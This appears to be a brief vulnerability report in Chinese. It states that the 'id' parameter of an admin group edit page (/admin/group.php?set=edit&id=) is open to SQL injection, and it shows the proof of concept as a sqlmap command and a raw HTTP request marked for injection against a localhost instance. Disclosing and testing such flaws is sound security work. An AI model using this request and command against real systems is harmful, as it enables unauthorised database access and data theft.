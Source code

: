 
当我们点击编辑按钮时 id存在sql注入漏洞
![image](https://github.com/user-attachments/assets/a18dfc22-5c2e-4ced-b136-b857f9304f9b)

sqlmap -r filename --dbms mysql

GET /admin/group.php?set=edit&id=* HTTP/1.1
Host: 127.0.0.1:9998
sec-ch-ua: "Not=A?Brand";v="99", "Chromium";v="118"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9998/admin/group.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_token=90d7M%2F3WDbztaftquNBfPRbNjPw3LxjDKcUaDvO7bEYpzHRRwwPyLNeT0td94g7p9w%2FXL0yfP9yV79VFuXdofmtlOg; BRPcM_admin_username=6876tBBUp5geSxCQN5sA1iKcxHKWIYz21qWkazG8S7yeLg; BRPcM_siteid=d932okj60sk0B9TkqM1wpAl87Z7cVJGoQaDRLspG; BRPcM_userid=f73dmCvThxA-y9q6p7E4mTCO1Yu7GN2Md5i5VRay; BRPcM_admin_email=d4adXnvKveOWi9fo2VEdwAuaB8F34r9gqTCJ-An7Vr_H5Pge; BRPcM_sys_lang=95b7Z8OobH3UEBHG6reEsIAHxg3si_OotB0pwqWUH0FmZg; JSESSIONID=ZCgZNzqIkXhtv3WhzYFl5fjxcB9DdC4id5mxh0O1; PHPSESSID=qkk1eisjp2p17ce7tll9tfq6vb; admin_token=c5f7pAlNpu4s4xQllufPvMzOK6dR6J2Z0TkaFIgtOFzg1VKSltZq614l0Nc7mTL2SmmcluK6%2FUhwXZFDZ4UROQNqGg
Connection: close

![image](https://github.com/user-attachments/assets/c39dc272-8ebd-4b5c-96a0-2dabbd0b96f7)

